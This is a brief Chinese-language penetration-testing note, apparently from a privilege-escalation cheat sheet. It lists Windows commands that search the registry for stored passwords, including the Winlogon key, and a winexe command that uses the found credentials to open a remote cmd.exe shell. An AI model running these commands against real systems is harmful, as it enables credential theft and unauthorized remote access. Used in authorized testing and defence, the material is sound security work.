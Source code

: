 # （可尝试）注册表存在凭据

```bash

reg query HKLM /f password /t REG_SZ /s
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
登陆
winexe -U 'admin%password' //MACHINE_IP cmd.exe

```

‍
